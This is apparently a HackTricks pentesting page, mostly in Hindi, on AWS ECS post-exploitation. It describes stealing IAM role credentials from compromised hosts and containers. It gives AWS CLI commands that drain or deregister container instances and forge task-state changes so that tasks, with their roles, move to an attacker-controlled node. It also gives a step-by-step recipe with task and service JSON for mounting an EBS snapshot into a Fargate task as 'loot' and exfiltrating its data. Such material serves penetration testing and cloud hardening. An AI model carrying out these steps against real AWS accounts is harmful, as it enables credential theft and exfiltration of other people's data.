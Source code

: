 # AWS - ECS Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

For more information check:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Host IAM Roles

ECS में container के अंदर चलने वाली task को **IAM role** असाइन किया जा सकता है। **If** task किसी **EC2** instance के अंदर चल रही है, तो उस **EC2 instance** के साथ **another IAM** role जुड़ा होगा.\
इसका मतलब यह है कि अगर आप किसी ECS instance को **compromise** कर लेते हैं तो आप संभावित रूप से **obtain the IAM role associated to the ECR and to the EC2 instance** कर सकते हैं। उन credentials को कैसे प्राप्त करें, इसके लिए देखें:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html
{{#endref}}

> [!CAUTION]
> Note that if the EC2 instance is enforcing IMDSv2, [**according to the docs**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html), the **response of the PUT request** will have a **hop limit of 1**, making impossible to access the EC2 metadata from a container inside the EC2 instance.

### Privesc to node to steal other containers creds & secrets

इसके अलावा, EC2 docker का उपयोग करके ECS tasks चलाता है, इसलिए अगर आप node तक escape कर पाते हैं या **docker socket** तक **access** कर लेते हैं, तो आप देख सकते हैं कि कौन से **other containers** चल रहे हैं, और उनमें **get inside** करके उनके जुड़े हुए **IAM roles** भी **steal** कर सकते हैं।

#### Making containers run in current host

फिर भी, आमतौर पर **EC2 instance role** के पास cluster के अंदर nodes के रूप में उपयोग होने वाले EC2 instances के **container instance state** को **update** करने के लिए पर्याप्त **permissions** होते हैं। एक attacker किसी instance की **state को DRAINING** में बदल सकता है, तब ECS उस instance से **सभी tasks को remove** कर देगा और जो tasks **REPLICA** के रूप में चल रहे हैं वे किसी अलग instance में **run** होंगे, संभवतः attacker के instance में, ताकि वह उनके **IAM roles** और container के अंदर मौजूद संभावित संवेदनशील जानकारी **steal** कर सके।
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
उसी तकनीक को **deregistering the EC2 instance from the cluster** करके किया जा सकता है। यह संभावित रूप से कम stealthy होगा लेकिन यह **tasks को अन्य instances पर चलने के लिए मजबूर कर देगा:**
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
टास्क्स को पुनः निष्पादन के लिए मजबूर करने की एक अंतिम तकनीक यह है कि ECS को सूचित किया जाए कि **task or container was stopped**। इसके लिए 3 संभावित APIs हैं:
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### ECR containers से संवेदनशील जानकारी चुराएँ

EC2 instance के पास सम्भवतः `ecr:GetAuthorizationToken` permission भी होगा, जो इसे **इमेज डाउनलोड करने** की अनुमति देता है (आप उनमें संवेदनशील जानकारी खोज सकते हैं)।




### EBS snapshot को सीधे एक ECS task में mount करें (configuredAtLaunch + volumeConfigurations)

मौजूदा EBS snapshot की सामग्री को सीधे एक नए ECS task/service के अंदर mount करने और container के अंदर से इसके डेटा को पढ़ने के लिए native ECS EBS integration (2024+) का दुरुपयोग करें।

- आवश्यकताएँ (कम से कम):
- ecs:RegisterTaskDefinition
- One of: ecs:RunTask OR ecs:CreateService/ecs:UpdateService
- iam:PassRole निम्न पर:
- वॉल्यूम्स के लिए उपयोग किया गया ECS infrastructure role (policy: `service-role/AmazonECSInfrastructureRolePolicyForVolumes`)
- Task execution/Task roles जिन्हें task definition में refer किया गया है
- यदि snapshot CMK से encrypted है: infra role के लिए KMS permissions चाहिए (ऊपर दिया गया AWS managed policy AWS managed keys के लिए आवश्यक KMS grants शामिल करता है)।

- प्रभाव: container के अंदर snapshot से arbitrary disk contents (जैसे database files) पढ़ना और network/logs के माध्यम से exfiltrate करना।

Steps (Fargate example):

1) ECS infrastructure role बनाएँ (यदि मौजूद नहीं है) और managed policy attach करें:
```bash
aws iam create-role --role-name ecsInfrastructureRole \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsInfrastructureRole \
--policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSInfrastructureRolePolicyForVolumes
```
2) एक task definition रजिस्टर करें जिसमें एक volume `configuredAtLaunch` के रूप में चिह्नित हो और उसे container में माउंट करें। उदाहरण (secret प्रिंट करने के बाद sleep करता है):
```json
{
"family": "ht-ebs-read",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"executionRoleArn": "arn:aws:iam::<ACCOUNT_ID>:role/ecsTaskExecutionRole",
"containerDefinitions": [
{"name":"reader","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
"entryPoint":["/bin/sh","-c"],
"command":["cat /loot/secret.txt || true; sleep 3600"],
"logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/ebs","awslogs-stream-prefix":"reader"}},
"mountPoints":[{"sourceVolume":"loot","containerPath":"/loot","readOnly":true}]
}
],
"volumes": [ {"name":"loot", "configuredAtLaunch": true} ]
}
```
3) एक सर्विस बनाएं या अपडेट करें जो EBS snapshot को `volumeConfigurations.managedEBSVolume` के माध्यम से पास करे (iam:PassRole की आवश्यकता infra role पर)। उदाहरण:
```json
{
"cluster": "ht-ecs-ebs",
"serviceName": "ht-ebs-svc",
"taskDefinition": "ht-ebs-read",
"desiredCount": 1,
"launchType": "FARGATE",
"networkConfiguration": {"awsvpcConfiguration":{"assignPublicIp":"ENABLED","subnets":["subnet-xxxxxxxx"],"securityGroups":["sg-xxxxxxxx"]}},
"volumeConfigurations": [
{"name":"loot","managedEBSVolume": {"roleArn":"arn:aws:iam::<ACCOUNT_ID>:role/ecsInfrastructureRole", "snapshotId":"snap-xxxxxxxx", "filesystemType":"ext4"}}
]
}
```
4) जब task शुरू होता है, container configured mount path पर snapshot की सामग्री (उदा., `/loot`) पढ़ सकता है। Exfiltrate task के network/logs के माध्यम से।

सफाई:
```bash
aws ecs update-service --cluster ht-ecs-ebs --service ht-ebs-svc --desired-count 0
aws ecs delete-service --cluster ht-ecs-ebs --service ht-ebs-svc --force
aws ecs deregister-task-definition ht-ebs-read
```
{{#include ../../../../banners/hacktricks-training.md}}
